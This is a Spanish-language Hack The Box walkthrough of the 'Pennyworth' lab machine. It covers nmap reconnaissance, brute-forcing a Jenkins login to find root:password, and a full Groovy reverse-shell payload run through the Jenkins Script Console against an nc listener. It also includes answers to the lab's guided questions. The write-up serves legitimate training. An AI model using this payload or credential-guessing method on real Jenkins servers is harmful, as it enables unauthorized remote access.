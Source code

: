 ```yaml
---
title: Writeup pennyworth - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - pennyworth
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina pennyworth en Hack The Box.
keywords:
  - writeup pennyworth
  - hack the box pennyworth
  - resolución máquina pennyworth
  - pennyworth hack the box
  - htb pennyworth
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Pennyworth)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=vC5kp8ODqls))
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=7umykwIvKAI)

--------

#veryeasy #linux #nmap #ping #groovy #reverseshell

----
# Guided Mode

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`8080` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39  y Jenkings 2.289.1

----
# Intrusion al panel de logeo con [[Caido]]

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Interceptamos la peticion con [[Caido]] la mandamos al *Automate* y con los diccionarios de Seclits que usamos para estos casos, vamos a descubrir filtrando por el Lenght

![[Pennyworth8.png]]
Las credenciales validas son :   root:password

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]

Apretamos donde dice *Manage Jenkins* en la columna de la derecha
![[Pennyworth9.png]]

Despues vamos abajo donde dice *Script Console* y entramos

![[Pennyworth10.png]]

Vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]

--------
# Notas

Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.


--------
# Creditos
Writeup Oficial HackTheBox



